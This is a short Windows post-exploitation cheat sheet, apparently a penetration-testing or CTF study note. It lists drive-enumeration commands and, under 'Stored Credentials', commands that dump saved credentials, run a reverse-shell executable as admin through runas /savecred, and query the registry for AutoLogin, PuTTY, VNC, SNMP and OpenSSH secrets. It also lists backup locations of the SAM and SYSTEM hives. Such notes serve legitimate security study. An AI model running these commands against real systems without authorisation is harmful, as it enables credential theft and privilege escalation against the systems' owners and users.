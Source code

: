 ## Drives

List drives:

```powershell
# cmd / general
wmic logicaldisk get name
wmic logicaldisk get caption
wmic logicaldisk get deviceid, volumename, description
fsutil fsinfo drives
list volume

# powershell
get-psdrive -psprovider filesystem
```



## Stored Credentials

Make sure to re-check these whenever you gain access to a new user/session.

```powershell
# show stored credentials
cmdkey /list

# runas using saved credentials
runas /savecred /user:admin C:\PrivEsc\reverseshell.exe
```

```powershell
# AutoLogin
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

# PuTTY saved sessions
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

# possible vnc password locations
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"

# snmp
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP" /s

# openssh keys
reg query "HKCU\Software\OpenSSH\Agent\Key"
```

Look for common backup locations of the Security Account Manager:
```powershell
# Usually %SYSTEMROOT% = C:\Windows
# you can use icacls or dir to check whether you can find them
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```
